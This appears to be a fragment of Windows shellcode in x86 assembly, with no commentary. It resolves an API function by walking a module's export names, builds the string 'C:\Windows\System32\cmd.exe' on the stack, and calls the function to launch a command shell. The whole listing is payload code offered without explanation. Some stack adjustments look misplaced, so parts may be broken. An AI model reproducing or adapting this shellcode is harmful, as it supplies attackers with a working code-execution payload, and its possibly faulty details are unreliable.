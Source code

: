 ```asm
dec esi
dec esi
dec esi
mov edx, [esi]
xor esi, esi
add edx, ebx
mov [ebp-0x14], edx
add eax, 0x14
dec eax
dec eax
mov edx, [eax]

xor eax, eax

loop:
    mov edi, [ebp-0x10]
    mov esi, [ebp-4]
    xor ecx, ecx

    cld 
    mov edi, [edi + eax*4]
    add edi, ebx
    add cx, 8
    repe cmpsb  
    jz found
    inc eax
    cmp eax, edx
    jb loop
    add esp, 0x26  		
found:
    mov ecx, [ebp-0x0C]
    mov edx, [ebp-0x14]
    mov esi, ecx
    add esi, eax
    add esi, eax
    mov ax, [esi]
    mov esi, edx
    add esi, eax
    add esi, eax
    add esi, eax
    add esi, eax
    mov eax, [esi]
    xor esi, esi
    add eax, ebx

xor edx, edx
push edx
push 0x20657865
push 0x2e646d63
push 0x5c32336d
push 0x65747379
push 0x535c7377
push 0x6f646e69
push 0x575c3a43
mov esi, esp
push 0x01
push esi
call eax
add esp, 0x46
ret
```
